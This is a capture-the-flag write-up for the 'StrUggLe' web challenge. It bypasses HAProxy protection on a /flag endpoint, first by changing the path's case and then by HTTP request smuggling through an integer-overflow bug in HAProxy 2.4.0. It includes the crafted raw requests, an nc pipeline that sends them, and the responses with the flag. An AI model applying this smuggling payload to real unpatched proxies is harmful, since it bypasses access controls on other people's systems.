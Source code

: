 ```yaml
---
description: HAProxy HTTP Request Smuggling
---
```


# StrUggLe

> Welcome to Web! I struggle everyday I face a new website, can you access /flag endpoint ?
>
> Link: http://128.199.3.34:1235
>
> **Author:** Kahla

### Unintended Solution

The HAProxy configuration to protect the `/flag` endpoint was case sensitive. Therefore, the following would be sufficient to bypass the validation.

```http
GET /FLAG HTTP/1.1
Host: 128.199.3.34:1235

```

```http
HTTP/1.1 200 OK
x-powered-by: Express
content-type: text/html; charset=utf-8
content-length: 43
etag: W/"2b-aWQ+/21qg4d1e3yOxiZcpTrSBxw"
date: Fri, 13 May 2022 09:34:06 GMT
x-server: HaProxy-2.4.0

Securinets{W3lC0me_T0_FinAlS_4nD_SmUUgLinG}
```

### Intended Solution

From the server response headers, we know that HAProxy version 2.4.0 is used in front of an Express application. This version is vulnerable to a [HTTP request smuggling vulnerability](https://jfrog.com/blog/critical-vulnerability-in-haproxy-cve-2021-40346-integer-overflow-enables-http-smuggling/).

Basically, an integer overflow leads to `Content-Length0aaa...aaa:` being forwarded to the backend as `Content-Length: 0`, while a second duplicate `Content-Length` header is used by HAProxy to determine the length of the request body.

```http
POST /test HTTP/1.1
Host: 128.199.3.34:1235
Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:
Content-Length: 26

GET /flag HTTP/1.1
DUMMY:GET / HTTP/1.1
Host: 128.199.3.34:1235

```

In the above example, HAProxy considers the following to be the first request:

```http
POST /test HTTP/1.1
Host: 128.199.3.34:1235
Content-Length: 26

GET /flag HTTP/1.1
DUMMY:
```

while the second request is the following:

```http
GET / HTTP/1.1
Host: 128.199.3.34:1235

```

However, when forwarded to the backend, this becomes:

```http
POST /test HTTP/1.1
Host: 128.199.3.34:1235
Content-Length: 0

GET /flag HTTP/1.1
DUMMY:GET / HTTP/1.1
Host: 128.199.3.34:1235

```

Therefore, the response for the second request will correspond to `/flag` instead of `/`.

Due to the way the pipelining works, we have to add some artificial delays when sending the consecutive requests.

```bash
$ (printf "POST / HTTP/1.1\r\n"\
"Host: 128.199.3.34:1235\r\n"\
"Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:\r\n"\
"Content-Length: 26\r\n\r\n"; sleep 1;
printf "GET /flag HTTP/1.1\r\n"\
"DUMMY:"; sleep 1; printf "GET /test HTTP/1.1\r\n"\
"Host: 128.199.3.34:1235\r\n\r\n") | nc 128.199.3.34 1235
```

```http
HTTP/1.1 404 Not Found
x-powered-by: Express
content-security-policy: default-src 'none'
x-content-type-options: nosniff
content-type: text/html; charset=utf-8
content-length: 140
date: Fri, 13 May 2022 09:41:24 GMT
x-server: HaProxy-2.4.0

<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>Cannot POST /</pre>
</body>
</html>
HTTP/1.1 200 OK
x-powered-by: Express
content-type: text/html; charset=utf-8
content-length: 43
etag: W/"2b-aWQ+/21qg4d1e3yOxiZcpTrSBxw"
date: Fri, 13 May 2022 09:41:26 GMT
x-server: HaProxy-2.4.0

Securinets{W3lC0me_T0_FinAlS_4nD_SmUUgLinG}
```
